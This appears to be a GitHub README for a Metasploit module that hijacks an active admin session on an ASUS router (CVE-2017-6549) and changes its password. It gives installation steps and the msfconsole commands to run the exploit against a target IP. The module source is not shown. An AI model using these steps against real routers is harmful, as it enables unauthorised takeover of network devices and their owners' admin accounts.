 # asus-router-session-steal
Just a simple module I wrote to session steal my old router and change the password
Works by stealing an active admin session and is related to the 
CVE-2017-6549 vulnerability

## Instructions
Move the `.rb` file to `/usr/share/metasploit-framework/modules/exploit/linux/http`

Run the following commands after moving:
```
msfconsole
use exploit/linux/http/session_steal_router
set RHOST <ROUTER_IP_HERE>
set new_pw <INTENDED_PW_HERE>
exploit
```
